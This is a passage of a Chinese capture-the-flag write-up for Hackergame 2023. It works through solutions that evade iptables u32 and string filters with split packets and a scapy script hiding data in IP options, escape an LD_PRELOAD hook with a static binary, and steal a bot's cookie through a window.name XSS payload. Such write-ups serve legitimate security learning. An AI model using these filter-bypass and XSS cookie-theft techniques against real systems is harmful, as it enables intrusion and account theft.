    request_part2 = """T / HTTP/1.1
Host: {}
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 100

114514:asdfgh==
""".format(host)  # 使用Connection: close确保服务器在发送响应后关闭连接
    s.sendall(request_part2.encode())
    
    # 接收数据
    buffer_size = 4096
    response = b''
    while True:
        data = s.recv(buffer_size)
        if not data:
            break
        response += data
    
    # 关闭套接字
    s.close()
    return response.decode()

# 使用函数
host = "202.38.93.111"
port = 18080
response = send_split_post_request(host, port)
print(response)
```




### 我的 P

```bash
-A myTCP-2 -p tcp -m u32 --u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50" -j REJECT --reject-with tcp-reset
```

继续问 chatgpt

> 1. `-A myTCP-2`: 这部分表示将规则附加到名为"myTCP-2"的链 (Chain)，这个链通常是用户自定义的，可以根据需要创建。规则将应用于该链中的数据包。
>
> 2. `-p tcp`: 这部分指定了规则适用于TCP协议的数据包。只有TCP数据包将受到这个规则的影响。
>
> 3. `-m u32`: `-m`标志用于加载内核模块，以便使用特定的匹配扩展。在这种情况下，使用了`u32`扩展，该扩展允许你创建复杂的匹配规则。
>
> 4. `--u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50"`: 这是`u32`扩展的匹配规则。这个规则非常复杂，它实际上是用于匹配特定的TCP数据包头字段位模式。让我拆解这个规则：
>
>    - `0 >> 22 & 0x3C`：这部分规则表示从偏移量0（数据包的起始位置）开始，向右移动22位，然后和十六进制值0x3C（二进制形式为00111100）进行按位与操作。这个操作的目的是匹配TCP头的一部分位。
>
>    - `@ 12 >> 26`：接下来，从偏移量12开始，向右移动26位。这个部分是在TCP头中的另一个位置。
>
>    - `@ 0 >> 24`：最后，从偏移量0开始，向右移动24位。
>
>    - `= 0x50`：最后，规则要求上述三个部分的结果必须等于十六进制值0x50（二进制形式为01010000）。（十进制80）
>
>    总的来说，这个匹配规则是相当复杂的，它要求TCP数据包的特定位必须匹配特定的二进制模式。
>
> 5. `-j REJECT --reject-with tcp-reset`: 这部分指定了如果数据包匹配前面的规则，将如何处理匹配的数据包。在这种情况下，数据包将被拒绝（REJECT）并且用TCP复位（RST）响应（--reject-with tcp-reset）。这会导致TCP连接被中断，并且通信将不会继续。

参考 [我所理解的 iptables u32 匹配](https://imlonghao.com/30.html)

[简单的益智类小游戏: iptables u32过滤器，强大且好玩](https://zhuanlan.zhihu.com/p/584722105)

http://www.stearns.org/doc/iptables-u32.current.html

> **u32 基础**
>
> ```
> iptables -m u32 --u32 "Start&Mask=Range"
> ```
>
> 上面就是一个 u32 简单的语法，其中：
>
> `Start` 表示开始取值的位置 / 字节
>
> `Mask` 表示掩码
>
> `Range` 表示匹配的范围，可以是一个使用 `:` 分割开的区间，也可以只是一个数
>
> 如果我们需要同时检查多个规则，规则之间可以通过 `&&` 隔开
>
> 小技巧：通常我们可以通过(我们想要的字节的末位位置)减去 3 的方法来得到我们开始取值的位置
>
> **u32 操作符**
>
> 在上面的基础中，我们已经使用到了一个操作符 `&` ，此外，总共有四个操作符可供使用。
>
> `&` 按位与操作符：过滤出我们需要的四个字节（最多），或者只要其中一个字节
>
> `<<` 左移操作符： 把操作数的各二进位全部左移若干位，高位丢弃，低位补 0
>
> `>>` 右移操作符：把操作数的各二进位全部右移若干位，低位丢弃，高位补 0（或 1）
>
> `@` 向前推进操作符：向前推进若干的字节数

`0>>22&0x3C@` 就是得到 IP 头长度（长度单位是 4bytes，所以是 >> 24 << 2 = >>22，乘以4也就是左移2位），然后用 `@` 运算符直接推进到 TCP 头

而 `12 >> 26 @` 则提取了 TCP 头的长度，然后跳过 TCP 的部分到达数据区

`0 >> 24` 也就是取数据的最高8bits，也就是第一个 byte，看是不是 0x50 即字母 `P`


当然喵喵这里是非预期了，同样用上面的拆分脚本就行



感觉预期解法是**反转字节**？（不大懂

抓包瞄了眼 



后来又研究了一下，这里应该是因为提取 TCP 头的长度这里没有 `&0x3C`，而后面最低位的 2bits 是保留位 reserved



预期解应该就是直接构造一个将这保留位赋值的 payload，也就是将保留位反转，让其算错 TCP 首部的长度越过更大的范围从而匹配失败，最终实现绕过

而拆分包能过的原因应该是 u32 每次读取 4bytes，而 tcp data 长度不够 out of bound 了，于是匹配失败了（？


### 我的 GET

```bash
-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
```

发现在 TCP 建立连接，客户端发 SYN 包的时候就被 RST 了，然后进行 TCP 重传



唔，三次握手不能丢吧？试了试直接构造 `GET /` TCP SYN 包，确实不行。

那要在0-50范围内包含这个字符串，IP 头都至少20bytes了，那肯定是在 IP 头/ TCP 头里做文章

再回顾上面 http://www.stearns.org/doc/iptables-u32.current.html 这篇文章



IP 头有个 IP options 字段，长度是可变的，那大概率就把 `GET / HTTP` payload 扔这里面了。

不过要注意一个问题，这种奇怪的 IP 头可能会被中间的路由器给丢包了，~~所以主办方提供的 OpenVPN 可能就派上用场了（吗？~~ 反正最后还是直接换个网络试直接打公网了

这里反复整了几天，构造起来挺灵车的，最开始想用 scapy 库，后来感觉不对劲，换 raw socket 来写发现也不对劲，最后还是换回 scapy 手动构造三次握手，但是还不对劲。最后直接打公网算了，成了。

参考 [RFC791 Internet Protocol Specification](https://www.rfc-editor.org/rfc/rfc791) 





比如错误构造的一个包：



第一个 byte 的话第1bit 是否复制到各个分段，2bits 类型，剩下 5bits 是 number

第二个 byte 一般是 length（除了 End of Option List 0x00、No Operation 0x01 这种只有第一个 byte）

喵喵这里构造的话直接取保留类型了，后面 number 随便填一个，0b1 11 00010 -> 0xE2

需要注意的是这个 length 是包含前面 2bytes 控制 flag 的，如果不对的话会回复一个 ICMP 提示你长度错了



Exp，用 scapy 手动构造三次握手，指定自定义 IP option

感谢 ChatGPT 参与代码编写（

```python
from scapy.all import *
from scapy.layers.inet import IP, TCP

# 构建自定义选项的内容
# 以下是构建一个简单的NOP（无操作）选项作为示例
# IP选项通常以类型开始，接着是长度，然后是数据
custom_option = b'\xE2\x0CGET / HTTP'

# 使用Raw类封装自定义选项的内容
custom_ip_option = Raw(load=custom_option)

# 目标主机和端口
target_ip = "192.168.23.1"  # 替换为实际的IP地址
target_ip = "202.38.93.111"  # 替换为实际的IP地址
target_port = 18082  # HTTP通常使用端口80

# 创建IP数据包，包含自定义选项
ip = IP(dst=target_ip, options=custom_ip_option)

# 创建TCP数据包
tcp_syn = TCP(sport=RandShort(), dport=target_port, flags="S")

# 构建整个数据包
packet = ip/tcp_syn  

# 发送数据包并接收第一个响应
syn_ack = sr1(packet, timeout=3)

print(syn_ack)

# 如果收到SYN-ACK，发送ACK包
if syn_ack:  # and syn_ack[TCP].flags == "SA"
    # 创建TCP层，发送ACK包
    print('SYN_ACK!')
    tcp_ack = TCP(sport=syn_ack[TCP].dport, dport=target_port, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1)
    sr1(ip / tcp_ack, timeout=3)
    print('ACK!')

    # 创建HTTP GET请求的载荷
    payload = """POST / HTTP/1.1
Host: {}
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 100

114514:MiaoTonyIsWatchingYou
""".format(target_ip)
    # 发送HTTP GET请求，并等待响应
    response = sr1(ip / TCP(sport=syn_ack[TCP].dport, dport=target_port, flags="PA", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1) / payload, timeout=3)
    if response:
        response.show()
    else:
        print("No response received.")
else:
    print("No SYN-ACK received.")
```



返回包里拿到 flag



反正需要多试几次，偶尔还可能会被中间路由器给丢包了


***See also:***

[Raw Socket使用总结](https://cs.pynote.net/net/202205161/)

[scapy实现tcp三次握手并发送http请求](https://blog.csdn.net/qq_43402663/article/details/122755489)

> 在使用Pyhon scapy 库构造TCP时，遭遇到系统底层发送的rst包，导致三次握手无法建立情况。
>
> Linux 下 `iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP` 可以干掉系统rst包干扰。
>
> windows 将自带防火墙打开后，系统自发rst包消失了 
>
> Via https://blog.csdn.net/weixin_44704374/article/details/103492578

https://docs.python.org/zh-cn/3/library/socket.html


## 为什么要打开 /flag 😡

### LD_PRELOAD, love!

之前 `LD_PRELOAD` 一般都是拿来绕过 PHP disable_functions 的，这里反过来了，哈哈

`LD_PRELOAD` 用来显式指定加载的动态链接库，那咱直接静态编译就好了嘛。

exp: 写个读 `/flag` 的 C语言程序

```c
#include <stdio.h>

int main() {
    FILE *file;
    char buffer[1024];

    // 打开文件
    file = fopen("/tmp/1", "r");

    if (file == NULL) {
        perror("无法打开文件");
        return 1;
    }

    // 读取文件内容并输出
    while (fgets(buffer, sizeof(buffer), file) != NULL) {
        printf("%s", buffer);
    }

    // 关闭文件
    fclose(file);

    return 0;
}
```

```bash
gcc -static -o main main.c
```


当然了，这题他 hook 的脚本里虽然试图拦截一系列文件和进程创建的系统调用，但它并未拦截所有可能的系统调用。例如，`fopen64`、`open64` 等 64 位版本的文件操作函数并没有被拦截。如果存在这样的系统调用，它们可能会绕过这个库的检查。 

于是也可以使用 `open64` 来打开 `/flag` 文件来做。


### 都是 seccomp 的错

~~怎么题目脚本是 rust 写的~~

> Seccomp是Linux内核的一个安全功能，用于限制进程对系统调用的访问。Seccomp允许你指定一个系统调用过滤器规则，以控制进程能够调用哪些系统调用。Seccomp-unotify是一种特定于Linux的Seccomp模式，用于监控和筛选使用`unotify`（用户级通知）进行的系统调用。这个模式旨在增强系统的安全性。
>
> Via ChatGPT

> 这段 Rust 代码实现了一个安全监管程序，利用 Linux 的 `seccomp` 功能来控制一个子进程可以执行的系统调用。代码中包含了多个模块和函数，用于设置和处理系统调用的过滤和通知。以下是对代码关键部分的解释：
>
> ### 导入和结构定义
>
> - 导入了一系列的 Rust 标准库和第三方库，用于处理文件、线程、网络套接字、日志等。
> - `libseccomp` 库被用来与 Linux 的 `seccomp` 功能交互，它允许限制程序可以执行的系统调用。
>
> ### `SocketPair` 结构
>
> - 用于在子进程和父进程之间传递文件描述符（fd），通过使用 `sendmsg`/`recvmsg` 系统调用和 `SCM_RIGHTS` 控制消息。
>
> ### `UNotifyEventRequest` 结构
>
> - 封装了 `libseccomp` 的 `ScmpNotifReq`，这是一个来自 `seccomp` 子系统的通知请求，包含了关于系统调用的请求信息。
>
> ### `RemoteProcess` 结构
>
> - 允许监管程序与远程进程（子进程）交互，例如，通过 `process_vm_readv` 读取远程进程的内存。
>
> ### `Supervisor` 结构
>
> - 核心结构，用于创建和管理 `seccomp` 过滤器，设置系统调用处理函数，并执行和监控子进程。
> - `insert_handler` 方法用于为特定的系统调用添加用户自定义的处理函数。
> - `exec` 方法用于创建子进程，并应用 `seccomp` 过滤器。
> - `wait` 方法用于等待子进程结束，并清理监管线程和线程池。
>
> ### `opening_handler` 函数
>
> - 是一个示例的用户定义的处理函数，用于处理 `open` 和 `openat` 系统调用。
> - 它读取远程进程的内存来获取文件路径，如果路径中包含 "flag" 字符串，则打开一个虚假的 "flag" 文件并返回新的文件描述符。
>
> ### `main` 函数
>
> - 程序的入口点，设置日志，安装 panic hook 以便在线程崩溃时终止程序。
> - 解析命令行参数以获取要执行的子程序。
> - 创建 `Supervisor` 对象，插入处理函数，执行子程序，并等待其完成。
>
> 整体来看，这段代码是一个利用 `seccomp` 创建安全沙箱环境的高级框架。它可以监控和控制子进程的系统调用行为，确保子进程只能调用白名单上的系统调用，并对特定系统调用进行自定义处理。这在运行不可信代码或需要限制子进程行为的场景中非常有用。



[PWN题中常见的seccomp绕过方法](http:/https://www.anquanke.com/post/id/219077)

瞄了眼基本上绕过 seccomp 都是用 ORW，比如用 `openat` `readv` `writev` 之类的去绕过被 ban 的 syscall

但这题里 `open` 和 `openat` 都被处理了，看起来不行



试了下 link 建立个链接，但是发现也不行

> [Seccomp机制与seccomp notify介绍](https://just4coding.com/2022/04/03/seccomp/)
>
> 在`5.0`版本内核又加入了`seccomp-unotify`机制，`5.9`版本又做了特性增强。`seccomp-BPF`模式对`系统调用`的裁决是由过滤程序自己完成的，而`seccomp-unotify`机制能够将裁决权转移给另一个用户态进程。
>
> [The Seccomp Notifier - New Frontiers in Unprivileged Container Development](https://brauner.io/2020/07/23/seccomp-notify.html)
>
> 我们将加载过滤程序的进程叫做`target`, 接收通知的进程叫做`supervisor`。在这个模式中，`supervisor`不仅对是否允许`系统调用`能够做出裁决，它还可以代替`target`进程完成这个`系统调用`的行为。这大大扩大了`seccomp`机制的应用范围。上边我们介绍过，`Seccomp-BPF`模式只能检测系统调用的参数，不能解引用指针。而这个`unotify`模式则还可以去查看指针所指向的内存。

于是考虑利用 seccomp-unotify 将控制权交给用户态程序

> 早期的seccomp采用prctl来实现，后来seccomp被封装成libseccomp库。
>
> 早期的libseccomp安装
>
> ```
> sudo apt install libseccomp-dev libseccomp2 seccomp
> ```
>
> 现在已经全都整合成了`seccomp`
>
> ```
> find /usr/include/ -name seccomp.h
> /usr/include/seccomp.h
> /usr/include/linux/seccomp.h
> ```
>
> 注意区分，`linux`目录下的`seccomp.h`是原始版本。而`linux`目录外的`seccomp.h`则是libseccomp。
>
> *Via http://wh4lter.icu/2020/04/20/seccomp/*

[【云安全系列】让Seccomp“动“起来­­--SeccompNotify](https://zhuanlan.zhihu.com/p/580777000)

编译的时候要在 **最后面** 加 `-lseccomp`

看了下这个 supervisor 都是通过读取内存来获取输入的参数，进而判断 path 等内容，然后去真正执行

所以考虑是用 race condition 竞争去改掉获取到的内存里的内容

*~~（到了比赛最后一天通宵到早上了，实在太困了去呼呼了）~~*

后面来补，咕咕咕


## 微积分计算小练习 2.0

微积分的页面没用的，重点是 `/result` 页面

尝试构造 payload 

```
" + document["cookie"] +"
```

服务端会直接把用户输入拼接在 `你留下的评论：` 和 `");` 之间，于是可以插入自己的 js 语句。



但是这里过滤了一堆关键字符，而且 `()` 也给过滤了，不能闭合掉 `)` 也不能执行自己的命令，非常难受！！！

而且因为不能上外网，只能考虑利用自己的 session 把 bot 那边的信息 POST 评论的方式回带

先要访问 `/?token=114514%3AMiaoTonyxxx` 把自己的 cookie 设置上，然后 POST 回带，测试一下

```html
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    
    <form id="miaotony" action="http://web/result" method="post">
        <textarea name="comment" id="comment">meow//</textarea>
    </form>
    <script>
        window.onload = function () {
            document.forms["miaotony"].submit();
        };
    </script>
</body>
</html>
```



在本地访问 `/result` 发现成功设置！



然后喵喵反复试了老半天，本来的思路是利用 iframe 或者 window.open 在一个新窗口里把 cookie 渲染到界面上，然后通过某种交互方式/中间途径去把页面上渲染出来的 cookie 读回来，在自己的页面上 CSRF 的方式 POST 到评论

但是发现这样都行不通，只能换一种思路了

那就是全部请求在弹出的窗口上进行，那就还得去执行任意的 js

[MDN: Window：open() 方法](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/open) 

[w3schools: Window name](https://www.w3schools.com/jsref/prop_win_name.asp)

发现 `open(url, target)` 这个 `target` 有点意思，**他在两个页面间共享的，可以作为中间变量来传值！**

> `target`可选
>
> - : 一个不含空格的字符串，用于指定加载资源的浏览上下文的[名称](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/name)。如果该名称无法识别现有的上下文，则会创建一个新的上下文，并赋予指定的名称。还可以使用特殊的 [`target` 关键字](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/a#target)：`_self`、`_blank`、`_parent` 和 `_top`。
>
> 该名称可用作 [`<a>`](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/a#target) 或 [`<form>`](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/form#target) 元素的 `target` 属性。  

先打个 payload 过去，然后先给 name 也就是 window.name 赋值

```
"+name+"
```

然后借助这个 name，因为会直接写入到 html 里，于是可以插入任意恶意的 js，当然动态写入到 html 里的 script 标签不会执行，需要用 img svg 这种通过报错等途径来执行 js



可行！

于是构造 payload

```html

```

> 这里喵喵气死了，怎么页面上有两个 id 为 comment 的元素，直接用 `document.getElementById('comment')` 只能返回上面的那个 p 标签，于是试了老半天发现怎么没值返回，啊啊啊啊啊！！！
>
> 最后才发现怎么没给 form 里的 comment 赋值……

`btoa` 是 base64 一下防止出现奇妙字符被过滤了，后面发现果然（

`slice` 是因为长度限制

然后 自己的 html

```html
<!DOCTYPE html>
<html lang="en">

<head>
</head>

<body>
    
    <script>
        var payload = ""
        var w = window.open("http://web/result", payload);
        console.log(w);
    </script>
</body>

</html>
EOF
```

需要多次反复打，先打 POST `"+name+"`，然后让 bot 访问，然后自己 GET 拿 flag 一部分，再改 slice 反复

依次得到

```
ZmxhZz1mbGFnJTdCeDU1X3N0a
WxsX2FsaXZlJTI2JTNEJTNFXy
UzQytfYjllZGI1Mjc2NiU3RA=
```



---

BTW，查资料的时候发现一些有意思的

- [Penetration testing & window.opener — XSS vectors part 2](https://medium.com/tsscyber/penetration-testing-window-opener-xss-vectors-part-2-7810ebfccc1d)

在新开页面里调用 opener.location 设置成一个新的带 hash 的值，会使原来的页面跳转到新的地址去



- [Security: window.open(url, name) is vulnerable to XSS with "name" collision](https://www.w3.org/Bugs/Public/show_bug.cgi?id=29107)    

演示 demo: http://test.attacker-domain.com/sopresearch/windowopen.html

> This is testing window.open(url, "victimFrame") with a specific target  iframe inside of the victim's page, and the victim is expecting the URL  opened in the target frame. Unfortunately, if the victim page is framed  with the same name (e.g. "victimFrame") plus a javascript URL, the  window.open call would navigate the victim page itself instead of its  frame and the JavaScript is going to execute in the victim page's domain
>
> 也就是说如果这个 name 冲突而且正好在外层 window 上有的话，在 iframe 里面打开一个 `javascript:xxx` URL 是会在父框架上执行 js 的



- [AwesomeXSS](https://github.com/s0md3v/AwesomeXSS?tab=readme-ov-file#awesomexss) 各种奇妙的 XSS payload

- [xss的一些绕过](https://yuaneu.ro/archives/xss.html)

- [从一个绕过长度限制的 XSS 中，我们能学到什么？](https://www.tr0y.wang/2020/08/18/IDN/)

  讲的是各种 Unicode 绕过，比如通过 `⑭.₨` 这种域名来绕过长度限制

  查找 Unicode 网站：https://www.compart.com/en/unicode/ 

  Fuzz 工具：[UnicodeToy](https://github.com/h13t0ry/UnicodeToy?tab=readme-ov-file#unicodetoy), Unicode fuzzer for various purposes

- [XSS跨站脚本(XSS常用payload及绕过技巧)](https://www.cnblogs.com/snad/p/17247840.html)


## 异星歧途

游戏源代码在 GitHub 开源: https://github.com/Anuken/Mindustry











4个处理器，看起来就各种逻辑电路？数字电路类似物

感觉界面有点像 Scratch 那个图形化编程语言，不过可以点击编辑，然后导出逻辑到剪贴板

*（但是还不如结合着界面上的来看*

```
sensor s1 switch1 @enabled
sensor s2 switch2 @enabled
sensor s3 switch3 @enabled
sensor s4 switch4 @enabled
sensor s5 switch5 @enabled
sensor s6 switch6 @enabled
sensor s7 switch7 @enabled
sensor s8 switch8 @enabled
jump 18 equal s1 false
jump 18 equal s2 true
jump 18 equal s3 false
jump 18 equal s4 true
jump 18 equal s5 true
jump 18 equal s6 false
jump 18 equal s7 true
jump 18 equal s8 false
control enabled generator1 1 0 0 0
end
control enabled generator1 0 0 0 0
end


sensor sw1 switch1 @enabled
sensor sw2 switch2 @enabled
sensor sw3 switch3 @enabled
sensor sw4 switch4 @enabled
sensor sw5 switch5 @enabled
sensor sw6 switch6 @enabled
sensor sw7 switch7 @enabled
sensor sw8 switch8 @enabled
op shl t sw1 7
set number t
op shl t sw2 6
op add number number t
op shl t sw3 5
op add number number t
op shl t sw4 4
op add number number t
op shl t sw5 3
op add number number t
op shl t sw6 2
op add number number t
op shl t sw7 1
op add number number t
set t sw8
op add number number t
set en 0
set i 0
jump 33 greaterThanEq i 16
op pow fl0 i 2
jump 31 notEqual fl0 number
set en 1
jump 33 always x false
op add i i 1
jump 26 always x false
op equal fl1 0 sw1
op equal fl2 0 sw6
op or fl3 fl1 fl2
jump 38 equal fl3 0
set en 0
control enabled generator1 en 0 0 0
control enabled panel1 en 0 0 0
end


set links @links
set thisLink 0
getlink currentTurret thisLink
radar player any any distance currentTurret 1 me
sensor x me @shootX
sensor y me @shootY
control shoot currentTurret x y 0 0
op add thisLink thisLink 1
jump 2 lessThan thisLink links
end


sensor sw1 switch1 @enabled
sensor sw2 switch2 @enabled
sensor sw3 switch3 @enabled
sensor sw4 switch4 @enabled
sensor sw5 switch5 @enabled
sensor sw6 switch6 @enabled
sensor sw7 switch7 @enabled
sensor sw8 switch8 @enabled
sensor sw9 switch9 @enabled
control enabled conveyor2 sw1 0 0 0
control enabled gate1 sw2 0 0 0
op equal nsw3 sw3 0
control enabled reactor1 nsw3 0 0 0
control enabled reactor2 nsw3 0 0 0
control enabled conduit1 sw4 0 0 0
control enabled conduit2 sw4 0 0 0
control enabled mixer1 sw5 0 0 0
control enabled extractor1 sw6 0 0 0
control enabled meltdown1 sw7 0 0 0
control enabled meltdown2 sw7 0 0 0
op equal result sw8 sw9
jump 28 equal result true
control enabled mixer1 0 0 0 0
control enabled conduit2 1 0 0 0
control enabled reactor1 1 0 0 0
control enabled reactor2 1 0 0 0
control enabled conveyor2 1 0 0 0
wait 5
end


sensor t switch1 @enabled
control enabled source1 t 0 0 0
sensor t switch2 @enabled
control enabled source2 t 0 0 0
sensor t switch3 @enabled
control enabled source3 t 0 0 0
sensor t switch4 @enabled
control enabled source4 t 0 0 0
sensor t switch5 @enabled
control enabled source5 t 0 0 0
sensor t switch6 @enabled
control enabled source6 t 0 0 0
sensor t switch7 @enabled
control enabled source7 t 0 0 0
sensor t switch8 @enabled
control enabled source8 t 0 0 0
```

 [Mindustry Wiki: Logic - Glossary](https://mindustrygame.github.io/wiki/logic/1-glossary/)

手动解一下

```python
# Stage 1
# 10100101

# Stage 2 伪代码
number = sw1 << 7 + sw2 << 6 + sw3 << 5 + ... + sw8
i = en = 0
while True:
    if i >= 16:
# AAA:
        fl1 = sw1 == 0
        fl2 = sw6 == 0
        fl3 = fl1 | fl2
        if fl3 == 0:
            generator1 = en
            panel1 = en
        else:
            en = 0
    else:
        fl0 = i ** 2
        if fl0 != number:
            i += 1
        else:
            en = 1
            # goto AAA

# Stage 2
# 12345678
# 1....1..
# 14*14
# 11000100

# Stage 3
# 12345678
# 10001100

# Stage 4
# 01110111


# 10100101110001001000110001110111
```

要保证冷却水和冷却液正常工作，反向溢流门不能关，不然料进不来

最后成功稳定运行





`flag{B34WarE_0f_#xp1osi0N_xxxxx}`


## 小结

**完结撒花！**

呜呜，可能是最后一年打 HG 啦，😹要跑路啦！

~~本来一堆事情说不看的怎么又来看题了~~

今年 rk 40 / 2386，应该比往年高（乐










今年感觉题目比往年整体简单，基础的题目比较多，分差也不大，榜上瞄了眼都是群友，仰望.jpg

甚至没打过 CTF 的群友都能把喵喵超了，震惊！ *（当然 hackergame 和 CTF 还是有挺大区别的*

这个时间段事情挺多，基本只有几个晚上抽时间来看看题，最后一晚上还通宵到早上了，太困了，呼呼~

说来今年题目的整体顺序也是按照梯度来设计的，后面几题主要是 math、binary、blockchain 的题目，难度稍微大一些，不过时间有限，本来比赛中还想做做 math 题的，但是发现这周过得也太快了怎么感觉比赛刚开始就要结束了……

**总之，和往年一样，比赛过程中也学到了许多！**


---

另外，今年继续以 ~~你寄~~ 校队的名义拉了协办

不过可能因为咱刚办完持续一个月的新生赛，大家做吐了没啥人来玩 hackergame 了*（摊手*


幕后工作人员都辛苦了！

这也是喵喵最后一年参与协办联络对接了捏，希望之后还有学弟学妹来接手，🐱真要跑路啦！

喵呜！


---

另外，本文更详细的版本请挪步 [MiaoTony 的博客](https://miaotony.xyz/2023/11/05/CTF_2023Hackergame/?utm_source=github_hackergame2023)，如有更新以博客内容为准，仓库内的版本可能不再维护了。

**最后，欢迎来 [喵喵的博客](https://miaotony.xyz/?utm_source=github_hackergame2023) 逛逛喵~**
